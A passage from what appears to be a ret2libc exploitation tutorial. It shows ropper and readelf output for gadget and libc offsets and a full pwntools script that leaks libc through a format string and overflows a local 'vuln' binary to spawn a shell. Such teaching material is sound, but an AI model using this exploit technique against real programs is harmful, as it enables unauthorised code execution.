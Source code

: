```sh
$ ropper --file /usr/lib/x86_64-linux-gnu/libc-2.31.so --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: /usr/lib/x86_64-linux-gnu/libc-2.31.so

[...]

0x0000000000026796: pop rdi; ret;
0x000000000008f2d4: pop rdi; stc; jmp qword ptr [rsi + 0xf];
```

The gadget at offset `0x26796` seems suitable for our purposes.

The last offset we need to obtain is the address of the `exit()` function, which will allow us to cleanly exit the program once we're done using our shell. We can find this address the same way we found the address of `system()`.

```sh
$ readelf -s /usr/lib/x86_64-linux-gnu/libc-2.31.so | grep exit
   135: 000000000003e600    26 FUNC    GLOBAL DEFAULT   14 exit@@GLIBC_2.2.5
   552: 00000000000cb610    72 FUNC    GLOBAL DEFAULT   14 _exit@@GLIBC_2.2.5
   609: 0000000000130bb0    37 FUNC    GLOBAL DEFAULT   14 svc_exit@@GLIBC_2.2.5
   643: 0000000000138360    23 FUNC    GLOBAL DEFAULT   14 quick_exit@GLIBC_2.10
  2217: 000000000003e620   276 FUNC    WEAK   DEFAULT   14 on_exit@@GLIBC_2.2.5
```

We'll be using the first offset, `0x3e600`, and we'll ignore the other functions.

## Putting It All Together

Using the information we gathered in the previous section, we can generate the following exploit script:
```python
#!/usr/bin/env python3
from pwn import *

# Open up the process
p = process("./vuln", stdin=PTY)

# Leak a libc address
p.sendline("%5$p")
libc_base = int(p.recvline(), 16) - 0x1bebe0

# Calculate other addresses
system = p64(libc_base + 0x48df0)
bin_sh = p64(libc_base + 0x18a156)
pop_rdi = p64(libc_base + 0x26796)
exit = p64(libc_base + 0x3e600)

# Create the payload
payload = b'quit'
payload += b'A'*116
payload += pop_rdi
payload += bin_sh
payload += system
payload += exit

# Trigger the buffer overflow
p.sendline(payload)
p.interactive()
```
